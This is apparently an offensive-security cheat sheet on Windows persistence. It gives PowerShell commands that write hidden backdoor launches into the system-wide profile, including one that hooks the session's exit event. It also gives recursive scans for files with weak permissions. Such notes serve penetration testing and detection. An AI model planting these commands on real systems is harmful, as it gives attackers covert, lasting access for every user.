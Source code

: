 # PowerShell Profile
PowerShell profiles are scripts that are executed automatically whenever a new PowerShell session starts. These can be exploited to establish persistence by modifying them to execute arbitrary code. There are four types of profiles, but the most commonly used for persistence are the user-specific and system-wide profiles:

- User Profile: `$PROFILE` (This is user-specific and located at `C:\Users\<Username>\Documents\WindowsPowerShell\profile.ps1`)
- System-Wide Profile: `"C:\Windows\System32\WindowsPowerShell\v1.0\profile.ps1"` (This applies to all users on the system)

#### View System-Wide PowerShell Profile
The system-wide profile affects all users on the system. This command shows the contents of the global PowerShell profile:
```powershell
Get-Content -Path "C:\Windows\System32\WindowsPowerShell\v1.0\profile.ps1"
```

#### Create a New System-Wide PowerShell Profile
To create a new system-wide PowerShell profile, administrative privileges are required. Attackers with elevated permissions can create or modify the system-wide profile for persistence:
```powershell
New-Item -Path "C:\Windows\System32\WindowsPowerShell\v1.0\profile.ps1" -ItemType File -Force
```

#### Modify System-Wide PowerShell Profile 
Attackers with **administrative privileges** can modify the system-wide profile to execute malicious code for **every user** on the machine, thereby achieving system-wide persistence:
```powershell
Add-Content -Path "C:\Windows\System32\WindowsPowerShell\v1.0\profile.ps1" -Value "Start-Process 'C:\Backdoor\backdoor.exe' -WindowStyle Hidden"
```
This is an escalation tactic that affects all users on the machine, providing a broader attack surface.

#### Persist via PowerShell ScriptBlock (Global/System Level)
To achieve persistence at the system level, this method can be used. It injects a script or executable call into the system-wide PowerShell profile:
```powershell
Add-Content -Path "C:\Windows\System32\WindowsPowerShell\v1.0\profile.ps1" -Value 'Register-ObjectEvent -InputObject $host -EventName Exiting -Action {Start-Process -NoNewWindow -FilePath "C:\path\to\malicious_program.exe"}'
```

# Abusing File and Folder Permissions

#### Identify Files with Insecure Permissions
- Find All Writable Files and Folders:
	```powershell
	Get-ChildItem -Path C:\ -Recurse -Force | ForEach-Object {
        $acl = Get-Acl $_.FullName
        $acl.Access | Where-Object { $_.FileSystemRights -match "Write" }
    } | Out-File 'C:\Path\To\OutFile'
	```
- Look for Files with Writable Permissions: Find files or directories with Full Control for `Everyone`.
	```powershell
	Get-ChildItem -Path C:\ -Recurse -Force | Where-Object { 
    (Get-Acl $_.FullName).Access | Where-Object { 
        $_.IdentityReference -eq "Everyone" -and $_.FileSystemRights -match "FullControl"
    }
} | Out-File 'C:\Path\To\OutFile'